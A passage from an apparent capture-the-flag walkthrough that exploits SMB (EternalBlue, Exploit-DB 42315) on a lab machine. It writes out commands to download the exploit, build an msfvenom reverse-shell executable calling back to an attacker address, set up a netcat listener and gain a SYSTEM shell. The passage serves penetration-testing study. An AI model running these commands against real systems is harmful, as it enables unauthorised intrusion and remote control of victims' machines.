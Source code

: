 First, download the file and rename it to mysmb.py

```text
wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
mv 42315.py.1 mysmb.py
```

Second, use MSFvenom to generate a simple executable with a reverse shell payload.

```text
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.6 LPORT=4444 > eternal-blue.exe
```

Third, we need change the exploit to add credentials. In our case we don’t have valid credentials, however, let’s check to see if guest login is allowed.

If you run enum4linux, you can see that guest login is supported.

```text
enum4linux -a 10.10.10.40
```

* **-a**: Do all simple enumeration

We’ll add that to the exploit script.

![](https://miro.medium.com/max/341/1*6DCJVdyX8Hg766vfn8B0kA.png)

Similarly, we’ll add the reverse shell executable location and get the script to execute it.

![](https://miro.medium.com/max/864/1*qj1K_l6AXdFgm3PRNVi1mw.png)

Now that we’re done all three tasks, setup a listener on your attack machine.

```text
nc -nlvp 4444
```

Then run the exploit.

```text
python 42315.py 10.10.10.40
```

We have a shell with system privileges!

![](https://miro.medium.com/max/612/1*rVzn6hzA2Cz6U0tKZQAT4Q.png)

Grab the user flag.

![](https://miro.medium.com/max/622/1*F398e8JSIX_w0SYptS0D3Q.png)

Grab the root flag.

![](https://miro.medium.com/max/622/1*H9PLqvJQCxvFYeI28tTpfQ.png)

## Lessons Learned <a id="0408"></a>
